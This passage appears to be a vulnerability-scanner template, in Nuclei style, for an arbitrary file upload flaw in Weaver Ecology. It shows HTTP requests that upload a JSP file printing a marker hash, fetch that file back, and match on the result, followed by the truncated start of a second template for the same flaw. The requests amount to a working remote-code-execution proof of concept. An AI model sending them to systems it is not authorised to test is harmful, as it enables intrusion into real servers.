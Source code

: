 ### Step - 1

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: {{Hostname}}
Origin: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFy3iNVBftjP6IOwo

------WebKitFormBoundaryFy3iNVBftjP6IOwo
Content-Disposition: form-data; name="file"; filename="poc.jsp"
Content-Type: application/octet-stream

<%out.print(2be8e556fee1a876f10fa086979b8c7c);%>
------WebKitFormBoundaryFy3iNVBftjP6IOwo--

```

### Step - 2

```
GET /page/exportImport/fileTransfer/poc.jsp HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "2be8e556fee1a876f10fa086979b8c7c")
  2. status_code_2 == 200
- condition - and

---

# Ecology - Arbitrary File Upload

## Description

- Ecology contains an arbitrary file upload vulnerability. An attacker can upload arbitrary files to the server, which in turn can be used to make the application execute file content as code, As a result, an attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - medium
- tags - ecology,upload,fileupload,intrusive

## Requests

### Step - 1
